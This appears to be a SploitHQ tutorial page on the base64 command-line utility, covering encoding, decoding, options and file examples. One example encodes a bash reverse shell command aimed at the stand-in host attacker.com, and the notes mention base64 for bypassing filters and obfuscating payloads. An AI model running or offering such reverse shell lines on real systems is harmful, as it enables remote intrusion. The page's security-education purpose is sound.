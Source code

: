 # base64 – Encode and Decode Data

**base64** is a command-line utility used to encode and decode binary or text data using Base64 encoding. It is commonly used in scripting, data transmission, and CTFs to obfuscate or safely transport data through text-based channels like HTTP, email, or shell scripts.

🔗 [Use the Base64 Tool on SploitHQ](https://sploithq.com/base64)

---

## 🔍 What Can base64 Do?

- Encode binary data into readable ASCII
- Decode Base64 back into the original form
- Pipe input/output for use in scripts or payloads
- Handle both short strings and full files

---

## ⚙️ Basic Usage

### Encode a string:
```bash
echo -n 'hello' | base64
```

Output:
```
aGVsbG8=
```

### Decode a string:
```bash
echo 'aGVsbG8=' | base64 --decode
```

Output:
```
hello
```

---

## 🧰 Common Options

| Option          | Description                                 |
|-----------------|---------------------------------------------|
| `-w <num>`      | Wrap lines after `<num>` characters         |
| `-d`, `--decode`| Decode input instead of encoding             |
| `-i <file>`     | (MacOS) Read input from a file               |
| `-o <file>`     | (MacOS) Write output to a file               |

_Note: GNU/Linux and macOS versions of `base64` differ slightly in syntax._

---

## 🧪 Examples

### Encode the contents of a file:
```bash
base64 /bin/ls > encoded.txt
```

### Decode a file back to binary:
```bash
base64 -d encoded.txt > ls_copy
```

### Decode a JWT payload:
```bash
echo '<base64-payload>' | base64 --decode | jq .
```

### Encode a reverse shell payload:
```bash
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' | base64
```

---

## ⚠️ Notes

- Base64 is **not encryption** — it's simply encoding.
- Anyone can decode Base64 without a key.
- It is often used to bypass filters or obfuscate data in CTFs and payloads.

---

## 🌐 SploitHQ Live Base64 Tool

👉 [Use the Online Base64 Encoder/Decoder](https://sploithq.com/base64)

- Encode or decode interactively
- Supports plain strings and pasted file content
- Ideal for quick payload prep or de-obfuscation

---

## 🔗 Useful Links

- [base64 Man Page (die.net)](https://linux.die.net/man/1/base64)
- [CyberChef Base64 Tool](https://gchq.github.io/CyberChef/)
- [SploitHQ Base64 Encoder/Decoder](https://sploithq.com/base64)

---

## 📄 License

The base64 utility is included in GNU coreutils.  
This documentation is provided by [SploitHQ](https://sploithq.com) for use in ethical hacking, scripting, and data manipulation.

